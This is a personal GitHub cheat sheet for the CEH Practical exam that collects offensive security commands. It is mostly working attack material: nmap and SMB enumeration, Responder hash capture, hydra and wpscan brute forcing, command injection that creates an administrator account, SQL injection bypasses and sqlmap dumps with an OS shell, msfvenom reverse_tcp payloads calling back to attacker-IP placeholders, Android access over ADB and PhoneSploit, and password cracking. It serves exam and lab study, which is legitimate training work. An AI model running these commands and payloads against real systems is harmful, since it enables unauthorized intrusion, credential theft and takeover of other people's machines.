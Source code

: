 <img src="/IMG/CEH-Practical-Logo.jpg">

# CEH-Practical-Notes-and-Tools
Successfully completed the CEH (Practical) exam by EC-Council with a score of 20/20! Took me around 2 hours 20 minutes to complete the 6 hour Proctored exam.  

> Just a typical CTF Player/Hacker going back to Basics 💻

> My Personal Notes that I used on the Exam as a Cheatsheet

# Network Hacking - Enumeration
<details>
  <summary>Netdiscover </summary>
  
## Netdiscover
  
* Scan Entire Network for ALive host using ARP
```console
netdiscover -i eth0
netdiscover -r x.x.x.1/24
```
* Enum
```console
1- NetBios enum using windows- in cmd type- nbtstat -a 10.10.10.10 (-a displays NEtBIOS name table)

2- NetBios enum using nmap- nmap -sV -v --script nbstat.nse 10.10.10.16

3- SNMP enum using nmap-  nmap -sU -p 161 10.10.10.10 (-p 161 is port for SNMP)--> Check if port is open
                          snmp-check 10.10.10.10 ( It will show user accounts, processes etc) --> for parrot

4- DNS recon/enum-  dnsrecon -d www.google.com -z

5- FTP enum using nmap-  nmap -p 21 -A 10.10.10.10 

6- NetBios enum using enum4linux- enum4linux -u martin -p apple -n 10.10.10.10 (all info)
				  enum4linux -u martin -p apple -P 10.10.10.10 (policy info)
  ```
</details>

<details>
  <summary>Nmap </summary>
  
## Nmap

* To scan the live Host
```console
nmap -sP x.x.x.1/24                 
nmap -sn x.x.x.1/24
```

Null Scan
```console
nmap -sN x.x.x.x
```
* To find the Specific open port 
```console
nmap -p port x.x.x.1/24 --open
```

* To find the server running wamp server on windows web developent 
```console
nmap -sV -sC -A -Pn x.x.x.1/24 
```

* To find the OS 
```console
nmap -O x.x.x.x 
```
* Comprehensive Scan
```console
nmap -Pn -A x.x.x.1/24 -vv --open   
```
* To find FQDN (Find the FQDN in a subnet/network)
```console
nmap -p389 –sV -iL <target_list>
```
```console
 nmap -p389 –sV <target_IP>
```

* Scanning Networks (always do sudo su) --> To be root

  Nmap scan for alive/active hosts command for 192.189.19.18
```console
nmap -A 192.189.19.0/24 or nmap -T4 -A ip
```
  
Zenmap/nmap command for TCP scan- First put the target ip in the Target: and then in the Command: put this command 
```console
nmap -sT -v 10.10.10.16
```
  
Nmap scan if firewall/IDS is opened, half scan 
```console
nmap -sS -v 10.10.10.16 
```
  
If even this the above command is not working then use this command  
```console
namp -f 10.10.10.16
```
Nmap scan for host discovery or OS- nmap -O 192.168.92.10 or you can use
```console
nmap -A 192.168.92.10
```

If host is windows then use this command - this script determines the OS, computer name, domain, workgroup, time over smb protocol (ports 445 or 139).
```console
nmap --script smb-os-discovery.nse 192.168.12.22 
```

nmap command for source port manipulation, in this port is given or we use common port  
```console
nmap -g 80 10.10.10.10
```
```console  
-A command is aggressive scan it includes - OS detection (-O), Version (-sV), Script (-sS) and traceroute (--traceroute).
```
```console  
5- Identify Target system os with (Time to Live) TTL and TCP window sizes using wireshark- Check the target ip Time to live value with protocol ICMP. If it is 128 then it is windows, as ICMP value came from windows. If TTL is 64 then it is linux. Every OS has different TTL. TTL 254 is solaris.
```
Some extra RDP info
```console
Check RDP enabled after getting ip- nmap -p 3389 -iL ip.txt | grep open (ip.txt contains all the alive hosts from target subnet)
```
Some extra MYSQL info
```console
Check MySQL service running- nmap -p 3306 -iL ip.txt | grep open        (ip.txt contains all the alive hosts from target subnet)
```

</details>


<details>
  <summary>🔢 Enumeration Cheatsheet </summary>
	
# 🔢 Enumeration Cheatsheet

#### **General Enumeration:**

* ```
  nmap -vv -Pn -A -sC -sS -T 4 -p- 10.0.0.1
  ```
  * Verbose, syn, all ports, all scripts, no ping
* ```
  nmap -v -sS -A -T4 x.x.x.x
  ```
  * Verbose, SYN Stealth, Version info, and scripts against services.
* ```
  nmap –script smb-check-vulns.nse –script-args=unsafe=1 -p445 [host]
  ```
  * Nmap script to scan for vulnerable SMB servers – WARNING: unsafe=1 may cause knockover
* ```
  netdiscover -r 192.168.1.0/24
  ```

#### **FTP Enumeration (21):** <a href="#toc475368978" id="toc475368978"></a>

* ```
  nmap –script ftp-anon,ftp-bounce,ftp-libopie,ftp-proftpd-backdoor,ftp-vsftpd-backdoor,ftp-vuln-cve2010-4221,tftp-enum -p 21 10.0.0.1
  ```

#### **SSH (22):** <a href="#toc475368979" id="toc475368979"></a>

* ```
  ssh INSERTIPADDRESS 22
  ```

#### **SMTP Enumeration (25):** <a href="#toc475368980" id="toc475368980"></a>

* ```
  nmap –script smtp-commands,smtp-enum-users,smtp-vuln-cve2010-4344,smtp-vuln-cve2011-1720,smtp-vuln-cve2011-1764 -p 25 10.0.0.1
  ```
* ```
  nc -nvv INSERTIPADDRESS 25
  ```
* ```
  telnet INSERTIPADDRESS 25
  ```

#### **Finger Enumeration (79):** <a href="#toc494187363" id="toc494187363"></a>

Download script and run it with a wordlist: [http://pentestmonkey.net/tools/user-enumeration/finger-user-enum](http://pentestmonkey.net/tools/user-enumeration/finger-user-enum)

#### **Web Enumeration (80/443):** <a href="#toc475368981" id="toc475368981"></a>

* dirbuster (GUI)
* ```
  dirb http://10.0.0.1/
  ```
* ```
  nikto –h 10.0.0.1
  ```

#### **Pop3 (110):** <a href="#toc475368982" id="toc475368982"></a>

* ```
  telnet INSERTIPADDRESS 110
  ```
* ```
  USER [username]
  ```
* ```
  PASS [password]
  ```
  * To login
* ```
  LIST
  ```
  * To list messages
* ```
  RETR [message number]
  ```
  * Retrieve message
* ```
  QUIT
  ```
  * quits

#### **RPCBind (111):** <a href="#toc475368983" id="toc475368983"></a>

* ```
  rpcinfo –p x.x.x.x
  ```

#### **SMB\RPC Enumeration (139/445):** <a href="#toc475368984" id="toc475368984"></a>
```console

find ip using NMAP
-> smbclient -L \\IP >> for sharename
-> hydra -L userlist.txt -p passlist.txt ip smb


-> smbclient \\\\ip\\sharename -U user
type txt
```
* ```
  enum4linux –a 10.0.0.1
  ```
* `nbtscan x.x.x.x`
  * Discover Windows / Samba servers on subnet, finds Windows MAC addresses, netbios name and discover client workgroup / domain
* ```
  py 192.168.XXX.XXX 500 50000 dict.txt
  ```
* ```
  python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.168.XXX.XXX
  ```
* ```

	nmap -p 445 --script smb.enum-shares 10.10.x.x    ##share details wth permisions
  OR
  
  nmap IPADDR --script smb-enum-domains.nse,smb-enum-groups.nse,smb-enum-processes.nse,smb-enum-sessions.nse,smb-enum-shares.nse,smb-enum-users.nse,smb-ls.nse,smb-mbenum.nse,smb-os-discovery.nse,smb-print-text.nse,smb-psexec.nse,smb-security-mode.nse,smb-server-stats.nse,smb-system-info.nse,smb-vuln-conficker.nse,smb-vuln-cve2009-3103.nse,smb-vuln-ms06-025.nse,smb-vuln-ms07-029.nse,smb-vuln-ms08-067.nse,smb-vuln-ms10-054.nse,smb-vuln-ms10-061.nse,smb-vuln-regsvc-dos.nse
  ```
* ```
  smbclient -L //INSERTIPADDRESS/
  ```
  * List open shares
* ```
  smbclient //INSERTIPADDRESS/ipc$ -U john
  ```

#### **SNMP Enumeration (161):** <a href="#toc475368985" id="toc475368985"></a>

* ```
  snmpwalk -c public -v1 10.0.0.0
  ```
* ```
  snmpcheck -t 192.168.1.X -c public
  or
  snmp-check 192.168.63.2
  ```
* ```
  onesixtyone -c names -i hosts
  ```
* ```
  nmap -sT -p 161 192.168.X.X -oG snmp_results.txt
	or

  nmap -sU -p 161 --script=snmp.process 192.168.x.x
  ```
* ```
  snmpenum -t 192.168.1.X
  ```

#### **Oracle (1521):** <a href="#toc475368986" id="toc475368986"></a>

* ```
  tnscmd10g version -h INSERTIPADDRESS
  ```
* ```
  tnscmd10g status -h INSERTIPADDRESS
  ```

#### **Mysql Enumeration (3306):** <a href="#toc475368987" id="toc475368987"></a>

* ```
  nmap -sV -Pn -vv  10.0.0.1 -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122
  ```

#### **DNS Zone Transfers:** <a href="#toc475368988" id="toc475368988"></a>

* ```
  nslookup -> set type=any -> ls -d blah.com
  ```
* ```
  dig axfr blah.com @ns1.blah.com
  ```
  * This one works the best in my experience
* ```
  dnsrecon -d TARGET -D /usr/share/wordlists/dnsmap.txt -t std --xml ouput.xml
  ```

#### **Mounting File Share** <a href="#toc475368989" id="toc475368989"></a>

* ```
  showmount -e IPADDR
  ```
* ```
  mount 192.168.1.1:/vol/share /mnt/nfs  -nolock
  ```
  * mounts the share to /mnt/nfs without locking it
* ```
  mount -t cifs -o username=user,password=pass,domain=blah //192.168.1.X/share-name /mnt/cifs
  ```
  * Mount Windows CIFS / SMB share on Linux at /mnt/cifs if you remove password it will prompt on the CLI (more secure as it wont end up in bash\_history)
* ```
  net use Z: \\win-server\share password  /user:domain\janedoe /savecred /p:no
  ```
  * Mount a Windows share on Windows from the command line
* ```
  apt-get install smb4k –y
  ```
  * Install smb4k on Kali, useful Linux GUI for browsing SMB shares

#### **Fingerprinting:  Basic versioning / finger printing via displayed banner** <a href="#toc475368990" id="toc475368990"></a>

* ```
  nc -v 192.168.1.1 25
  ```
* ```
  telnet 192.168.1.1 25
  ```

#### **Exploit Research** <a href="#toc475368991" id="toc475368991"></a>

* ```
  searchsploit windows 2003 | grep -i local
  ```
  * Search exploit-db for exploit, in this example windows 2003 + local esc

#### **Compiling Exploits** <a href="#toc475368992" id="toc475368992"></a>

* ```
  gcc -o exploit exploit.c
  ```
  * Compile C code, add –m32 after ‘gcc’ for compiling 32 bit code on 64 bit Linux
* ```
  i586-mingw32msvc-gcc exploit.c -lws2_32 -o exploit.exe
  ```
  * Compile windows .exe on Linux

#### **Packet Inspection:** <a href="#toc475368993" id="toc475368993"></a>

* ```
  tcpdump tcp port 80 -w output.pcap -i eth0
  ```
  * tcpdump for port 80 on interface eth0, outputs to output.pcap

\
**
</details>

  <details>
  <summary>Wireshark</summary>
    
  ## Wireshark
  
  * Wireshark provides the feature of reassembling a stream of plain text protocol packets into a human-readable format
  
  ```shell
    select_packet > follow > TCP Stream
  ```
  
  * To the get the specific method like ( post , get )
  
  ```console
  http.request.method==post
  http.request.method==get
  ```
  * To the Find DOS & DDOS (SYN and ACK) : 
```console
tcp.flags.syn == 1 , tcp.flags.syn == 1 and tcp.flags.ack == 0
```
  * go to Statistics and Select Conversations , sort by packets in IPv4 based on number of Packets transfer
  
  ```shell
  Statistics > Conversations > IPv4 > Packets
  ```
* Wireshark summary
   
  ```console
  tcp.flags.syn == 1 and tcp.flags.ack == 0    (How many machines) or Go to statistics IPv4 addresses--> Source and Destination ---> Then you can apply the filter given

  tcp.flags.syn == 1   (Which machine for dos)

  http.request.method == POST   (for passwords) or click tools ---> credentials Also
  ```

 * Password Sniffing using Wireshark.  
In pcap file apply filter:- (you will get all the post request) Now to capture password click on edit in menu bar, then near Find packet section, on the "display filter" select "string", also select "Packet details" from the drop down of "Packet list", also change "narrow & wide" to "Narrow UTF-8 & ASCII", and then type "pwd" in the find section.
```console
http.request.method==POST
```
### wireshark filters
```console
### wireshark filters

# // filters by post
http.request.method==POST
smtp // email
pop // email
dns.qry.type == 1 -T fields -e dns.qry.name = show records present in this pcap
dns.flags.response == 0 = There are 56 unique DNS queries.
tcp // show tcp packets
# //find packets
edit > find packets > packet list : packet bytes > case sensitive: strings > string "pass" :search

# //DDOS ATTACK
look number of packets first column
then >statistics > ipv4 statistics > destination and ports

# ///Capture Packets with tcpdump
tcpdump -i eth0 -w capture.pcap

# ///Analyze with Wireshark filters
http.request.method == "POST"
ftp.request.command == "USER" || ftp.request.command == "PASS"

# /// tshark cli
tshark -r dns.cap | wc -l //count how many packets are in a capture
tshark -r dns.cap -Y "dns.qry.type == 1" -T fields -e dns.qry.name //show records present in this pcap
tshark -r dnsexfil.pcap -Y "dns.flags.response == 0" | wc -l 
tshark -r pcap -T fields -e dns.qry.name | uniq | wc -l //There are 56 unique DNS queries.
tshark -r pcap | head -n2 //DNS server side to identify 'special' queries
tshark -r pcap -Y "dns.flags.response == 0" -T fields -e "dns.qry.name" | sed "s/.m4lwhere.org//g" | tr -d "\n" `exfiltrate data with regx`
```
</details>

<details>
  <summary>Covert TCP</summary>
  
  ## Covert TCP
  
  * [covert_TCP](Covert_TCP.c) 
  * In this we have to use Covert TCP technique to analyses the pcapng file.
  * Traverse though each line in Wireshark and concentrate on Identification field, keep an eye on Hex value and ANSI value.
  * Compile the Code
  ```console
cc -o covert_tcp covert_tcp.c
  ```
  * Reciever Machine(Client_IP)
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 9999 -dest_port 8888 -server -file recieve.txt
  ```
  * Sender Machine(Attacker_IP)
  * Create A Message file that need to be transferred Eg: secret.txt
  ```console
  sudo ./covert_tcp -dest Client_IP -source Attacker_IP -source_port 8888 -dest_port 9999 -file secret.txt
  ```
 
 * Secret message sent using Covert_TCP and it is captured using Wireshark - [Pcap_of_Covert](Covert_TCP_Capture.pcapng)
 * The Secret text is -> Hello  This 123 -

  <img src="/IMG/CovertWireshark.jpg" />

 

</details>

<details>
  <summary> LLMNR/NBT</summary>
  
  ##  LLMNR/NBT-NS Poisoning

* [Responder](https://github.com/lgandx/Responder) - rogue authentication server to capture hashes.

* This can be used to get the already logged-in user's password, who is trying to access a shared resource which is not present.
  
* In Parrot/Kali OS, 

```console
responder -I eth0  
```

* In windows, try to access the shared resource, logs are stored at usr/share/responder/logs/SMB<filename>
* To crack that hash, use JohntheRipper

```console
john SMBfilename  
```
</details>

<details>
  <summary>Common Ports</summary>
  
 ## Common Port

* 21        - FTP
* 22        - SSH
* 23        - TELNET
* 3306      - MYSQL
* 389,3389  - RDP

</details>

<details>
  <summary>Port Login</summary>

  ## Port Login
    
  * FTP Login
    default username: anonymous
  ```console
    ftp x.x.x.x
  ```
If non standard port like 10021 
```console
    ftp x.x.x.x 10021
  ```
    
  * SSH Login  
  ```console
    ssh username@x.x.x.x
  ```
    
  * TELNET Login
  ```console
    telnet x.x.x.x
  ```
   
 </details>
</details>

# Web Hacking
<details>
	
<summary>HACKING WEB</summary>

@@ Hacking Web servers

```console
1- Footprinting web server Using Netcat and Telnet- nc -vv www.movies.com 80
						    GET /HTTP/1.0
						    telnet www.movies.com 80
						    GET /HTTP/1.0

2- Enumerate Web server info using nmap-  nmap -sV --script=http-enum www.movies.com

3- Crack FTP port using nmap-
nmap -p 21 10.10.10.10 (check if it is open or not)

ftp 10.10.10.10 (To see if it is directly connecting or need credentials if need. Then go to Desktop and in Ceh tools folder you will find wordlists, here you will find usernames and passwords file. )

Now in terminal type-
hydra -L /home/attacker/Desktop/CEH_TOOLS/Wordlists/Username.txt -P /home/attacker/Desktop/CEH_TOOLS/Wordlists/Password.txt ftp://10.10.10.10
or
hydra -l user -P passlist.txt ftp://10.10.10.10
```

@@ Hacking Web Application
```console
1- Scan Using OWASP ZAP (Parrot)- Type 'zaproxy' in the terminal and then it would open. In target tab put the url and click automated scan.

2- Directory Bruteforcing
gobuster dir -u 10.10.10.10 -w /home/attacker/Desktop/common.txt

3- Enumerate a Web Application using WPscan & Metasploit BFA- (u means username) 
wpscan --url http://10.10.10.10:8080/NEW --enumerate u  

Then type msfconsole to open metasploit. Type -  use auxilliary/scanner/http/wordpress_login_enum
 						 show options
						 set PASS_FILE /home/attacker/Desktop/Wordlist/password.txt
						 set RHOSTS 10.10.10.10  (target ip)
						 set RPORT 8080          (target port)
						 set TARGETURI http://10.10.10.10:8080/
						 set USERNAME admin

4- Brute Force using WPscan -    wpscan --url http://10.10.10.10:8080/NEW -u root -P passwdfile.txt (Use this only after enumerating the user like in step 3)
			         wpscan --url http://10.10.10.10:8080/NEW --usernames userlist.txt, --passwords passwdlist.txt 

5- Command Injection-  | net user  (Find users)
 		       | dir C:\  (directory listing)
                       | net user Test/Add  (Add a user)
		       | net user Test      (Check a user)
		       | net localgroup Administrators Test/Add   (To convert the test account to admin)
		       | net user Test      (Once again check to see if it has become administrator)
Now you can do a RDP connection with the given ip and the Test account which you created.

6- Multiple Ways to Detect HTTP Options

* Through the Nikto command we can identify the HTTP Options available on the target URL as follows
			nikto -h 192.168.1.109

* NMAP command to enumerate all of the HTTP methods supported by a web server on the target URL as follows :
	nmap --script http-methods --script-args http-method.test-all ='/192.168.1.109' 192.168.1.109



```
 </details>
<details>

 <summary>Enumeration</summary>

### Banner Grabbing
```console
nc -nv 192.168.1.5 80              # Netcat to check web server banner
 ```

 ### dir enumeration

 ```console
gobuster dir -u 10.10.. -w /usr/share/wordlists/dirb/common.txt -t 50 -x php,html,txt -q
```
```console
dir : directory listing
-u : host
-w : wordlists
-t : threads int / Number of concurrent threads (default 10)
-x : enumerate hidden files htm, php
-q : –quiet / Don’t print the banner and other noise

// wordpress enumeration
wpscan --url https://localchost.com --passwords=
wpscan -u 10.10.. -e u vp
wpscan -u 10.10.. -e u --wordlist path/rockyou.txt //bruteforce

-e = enumerate
u = enumerate usernames
vp = vulnerable plugins

// wordlist generation
cewl -w wordlist -d 2 -m 5 http://wordpress.com
-d = deeph of the scanning
-m = long of the words
-w = save to a file worlist
```
### enumerating -samba
```console
search for commands
smbmap --help | grep -i username

smbmap -u "admin" -p "passowrd" -H 10.10.10.10 -x "ipconfig"
-x = command
```
</details>
<details>

  <summary>Nslookup</summary>

* To verify Website's Ip
```console
Nslookup wwww.example.com
```
  </details>
  <details>
  <summary>File Upload</summary>
  
  ## File Upload Vulnerability
  
* To create a PHP Payload 
* Copy the PHP code and create a .php
  
```console
msfvenom -p php/meterpreter/reverse_tcp lhost=attacker-ip lport=attcker-port -f raw
```
  
* To create a Reverse_tcp Connection
```console
msfconsole
use exploit/multi/handler
set payload php/meterepreter/reverse_tcp
set LHOST = attacker-ip
set LPORT = attcker-port
run
```
  
* To find the secret file 
```console
  type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt
```
  </details>
<details>

 Summary
 ```console
1- Auth Bypass-  hi'OR 1=1 --

2- Insert new details if sql injection found in login page in username tab enter- blah';insert into login values('john','apple123');--

3- Exploit a Blind SQL Injection- In the website profile, do inspect element and in the console tab write -  document.cookie
Then copy the cookie value that was presented after this command. Then go to terminal and type this command,
sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --dbs

4- Command to check tables of database retrieved-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename --tables

5- Select the table you want to dump-  sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" -D databasename -T Table_Name --dump   (Get username and password)

6- For OS shell this is the command-   sqlmap -u "http://www.xyz.com/profile.aspx?id=1" --cookie="[cookie value that you copied and don't remove square brackets]" --os-shell

6.1 In the shell type-   TASKLIST  (to view the tasks)

6.2 Use systeminfo for windows to get all os version

6.3 Use uname -a for linux to get os version
```
  <summary>SQL Injection</summary>
  
  ## SQL Injection
  
  * Login bypass with [' or 1=1 --]
  

### SQLMAP
  
* List databases, add cookie values
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” --dbs 
```
* OR
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low”   --data="id=1&Submit=Submit" --dbs  
```

* List Tables, add databse name
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name --tables  
```
* List Columns of that table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --columns
```
* Dump all values of the table
```console
  sqlmap -u "http://domain.com/path.aspx?id=1" --cookie=”PHPSESSID=1tmgthfok042dslt7lr7nbv4cb; security=low” -D database_name -T target_Table --dump
```

### DSSS
  
  * Damn Small SQLi Scanner ([DSSS](https://github.com/stamparm/DSSS)) is a fully functional SQL injection vulnerability scanner (supporting GET and POST parameters)

  * As of optional settings it supports HTTP proxy together with HTTP header values User-Agent, Referer and Cookie.

  ```console
  python3 dsss.py -u "url" --cookie="cookie"
  ```
  <img src="/IMG/DSSS/dsss1.jpg" />  

  
  * Open the binded URL
  
  <img src="/IMG/DSSS/dsss2.jpg" />  

  
  </details>



</details>

# System Hacking

<details>
  <summary>System</summary>
  
  ## System 

  * To create a Payload 
```console
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=attacker_IP LPORT=attacker_Port -o filename.exe 
```
* To take a reverse TCP connection from windows
```console
msfdb init && msfconsole 
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST= attacker-IP  
set LPORT= attacker-Port 
run
```

</details>

## Getting a proper TTYPermalink
Now lets get a proper shell with auto completion.

```console
$ python3 -c "import pty;pty.spawn('/bin/bash')"
```

Hit CRTL+z to background the current process and on local box type
```console
$:~ stty raw -echo
and type fg and hit enter twice and on the reverse shell export the TERM as xterm.
```
www-data@startup:/var/www/html/files/ftp$  export TERM=xterm
Now we have a proper shell.

### Reverse shell nc
```console
nc -nlvp 1234
```

```console
python3 -m http.server
```
```console
wget 10.10.169.81:8000/suspicious.pcapng (wget remote IP:port/filename)
```

### FILE search
FILE search
-> find / -name Flag.txt 2>/dev/null

# Android Hacking
<details>
<summary>Android</summary>

  ## Android
  
```console
1- nmap ip -sV -p 5555    (Scan for adb port)

2- adb connect IP:5555    (Connect adb with parrot)

3- adb shell              (Access mobile device on parrot)

4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)
```

  <summary>ADB</summary>

  ## ADB
  
* To Install ADB
```console
apt-get update
sudo apt-get install adb -y
adb devices -l
```
* Connection Establish Steps

```console
adb connect x.x.x.x:5555
adb devices -l
adb shell  
```
* To navigate
```console
pwd
ls
cd Download
ls
cd sdcard
```
* Download a File from Android using ADB tool
```console
adb pull /sdcard/log.txt C:\Users\admin\Desktop\log.txt 
adb pull sdcard/log.txt /home/mmurphy/Desktop
```
</details>
<details>
  <summary>PhoneSploit</summary>
  
## PhoneSploit tool
  
* To install Phonesploit 

```console
git clone https://github.com/aerosol-can/PhoneSploit
cd PhoneSploit
pip3 install colorama
OR
python3 -m pip install colorama
```
* To run Phonesploit
```console
python3 phonesploit.py

```

```console
* Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device
* Type 4, to Access Shell on phone
* Download File using PhoneSploit

 cd /
-> cd sdcard search for flag img and then
-> pwd for file location
-> 9 for pulling img
-> location of img
-> where you want to save
Transfer to windows for decrypting using python server
```

9. Pull Folders from Phone to PC
```console

* Enter the Full Path of file to Download
sdcard/Download/secret.txt
```  
</details>

# Password Cracking & Hashing



<details>
  <summary>Wpscan</summary>
  
## Wordpress

* Wordpress site only Users Enumeration
```console
wpscan --url http://example.com/ceh --enumerate u
```
  * Direct crack if we have user/password detail
```console
wpscan --url http://x.x.x.x/wordpress/ -U users.txt -P /usr/share/wordlists/rockyou.txt
wpscan --url http://x.x.x.x:8080/CEH -u <user> -P ~/wordlists/password.txt
```
</details>

<details>
  <summary>Hydra</summary>

## Hydra


### GUI
```console
xhydra
```
### FILE search
```console
-> find / -name Flag.txt 2>/dev/null
```
### RDP
```console
hydra -V -f -L usernames.txt -P passwords.txt rdp://10.0.2.5 -V
```
### SSH
```console
hydra -l username -P passlist.txt x.x.x.x ssh

hydra -l root -P passwords.txt -f ssh://10.0.2.5 -V
```
```console
hydra -t4 -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.11
hydra -l lin -P /usr/share/wordlists/rockyou.txt ssh:10.10.149.118
```
### FTP
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x

hydra -l user -P passlist.txt ftp://10.10.10.10
```
* If the service isn't running on the default port, use -s
```console
hydra -L userlist.txt -P passlist.txt ftp://x.x.x.x -s 221
```
* Used to download the specific file from FTP to attacker or local machine
```console
get flag.txt ~/Desktop/filepath/flag.txt
get flag.txt .
```
### SMB
```console
hydra -l root -P passwords.txt -f smb://10.0.2.5 -V
```

### HTTP Basic Auth
```console
hydra -L users.txt -P password.txt 10.0.2.5 http-get /login/ -V
```
### HTTP POST
```console
# HTTP Post
hydra -L users.txt -P password.txt 10.0.2.5 http-post-form
"/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login
name or password is incorrect" -V
```
### IMAP
```console
# IMAP
hydra -l root -P passwords.txt -f imap://10.0.2.5 -V
```
### POP
```console
# POP
hydra -l USERNAME -P passwords.txt -f pop3://10.0.2.5 -V
```

### Post Web Form
```console
hydra -l -P 10.10.46.122 http-post-form "/login:username=^USER^&password=^PASS^:F=incorrect" -V
```


### TELNET
```console
hydra -l admin -P passlist.txt -o test.txt x.x.x.x telnet
```
### Other Examples
```console
Rexec
hydra -l root -P password.txt rexec://10.0.2.5 -V

Rlogin
hydra -l root -P password.txt rlogin://10.0.2.5 -V

RSH
hydra -L username.txt rsh://10.0.2.5 -V

RSP
hydra -l root -P passwords.txt <IP> rtsp

SMTP
hydra -l <username> -P /path/to/passwords.txt <IP> smtp -V
hydra -l <username> -P /path/to/passwords.txt -s 587 <IP> -S -v -V
#Port 587 for SMTP with SSL

Telnet
hydra -l root -P passwords.txt [-t 32] <IP> telnet

VNC
hydra -L /root/Desktop/user.txt –P /root/Desktop/pass.txt -s <PORT>
<IP> vnc
```
</details>

<details>
<summary>hash</summary>

## hash
<summary>hash</summary>

### Using Hashcat
hashcat -m 0 -a 0 hash.txt /usr/share/wordlists/rockyou.txt

### hashcat -a attack mode -m hashtype 900 md4 1000 NTLM 1800 SHA512CRYPT 110 SHA1 with SALT HASH 0 MD5 100 SHA1 1400 SHA256 3200 BCRYPT 160 HMAC-SHA1
```console
Hashcat -a 3 -m 900 hash.txt /rockyou.txt
```
### Hash Identifier 
```console
https://www.onlinehashcrack.com/hash-identification.php
```
### Hash-identifier (CLI)
#### Hash Crack 
```console
https://crackstation.net/ https://hashes.com/en/decrypt/hash
```

</details>



<details>
<summary>John</summary>

# John

### Using John
```console
john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```


## Commands Formats

```console
john --list=formats
```

### Crack SHA1

```console
john  --format=raw-sha1 hash.txt
```

### Crack MD5

```console
john --format=raw-md5 hash.txt
```

### Cracking Shadow Files

# Unshadow
unshadow passwd.txt shadow.txt > unshadowed.txt


# John
		
john /etc/shadow

<strong># Wordlist
john --wordlist=&#x3C;password.txt> /etc/shadow

### Cracking Zip Files

```console
# Zip to John
zip2john file.zip > ziphash.txt

```
```console
# John
john --format=zip ziphash.txt
```

### Crack .pfx File

```console
pfx2john <pfx file> > hash.txt

john hash.txt --wordlist=<wordlist location>
```

### Crack GPG Passphrase

**Read More** [Here](https://blog.atucom.net/2015/08/cracking-gpg-key-passwords-using-john.html)

```console
gpg2john priv.key > hash 

john hash --wordlist=/usr/share/wordlists/rockyou.txt 
```

### Crack SSH Passphrase

```console
ssh2john /home/chinju/.ssh/id_rsa > ssh_hash.txt

john ssh_hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

 </details>
  
# Steganography
  
  <details>
	  <summary>Steganography</summary>
	  
## Steganography
	  
### Extract files from images
```console
steghide extract -sf secret.jpg
```
### Find hidden strings
```console
strings suspect.png | less
 ```
  </details>
  
  <details>
	  <summary>Snow</summary>

### Snow
    
* Whitespace Steganography using [Snow](https://darkside.com.au/snow/snwdos32.zip)
* To hide the Text  
  
```console
SNOW.EXE -C -p test -m "Secret Message" original.txt hide.txt
```

* To unhide the Hidden Text

```console
SNOW.EXE -C -p test hide.txt
```
kali Hide Data Using Whitespace Stegnography- (magic is password and your secret is stored in readme2.txt along with the content of readme.txt)
```console
snow -C -m "My swiss account number is 121212121212" -p "magic" readme.txt readme2.txt  
```
To Display Hidden Data-(then it will show the content of readme2.txt content) 
```console
snow -C -p "magic" readme2.txt
```
<img src="/IMG/Snow.png"/>

</details>

<details>
  <summary>CrypTool</summary>
  
  ### CrypTool
  
  * [CrypTool](https://www.cryptool.org/en/ct1/downloads) for hex 
  
  <img src = "/IMG/Cryptool/CT.png"/>
  
  * To Encrypt
  
  <img src = "/IMG/Cryptool/CT5.png"/>
  <img src = "/IMG/Cryptool/CT6.png"/>
  
  * Use Key 05 
  
  <img src = "/IMG/Cryptool/CT7.png"/>
  <img src = "/IMG/Cryptool/CT8.png"/>
  <img src = "/IMG/Cryptool/CT9.png"/>
  <img src = "/IMG/Cryptool/CT10.png"/>
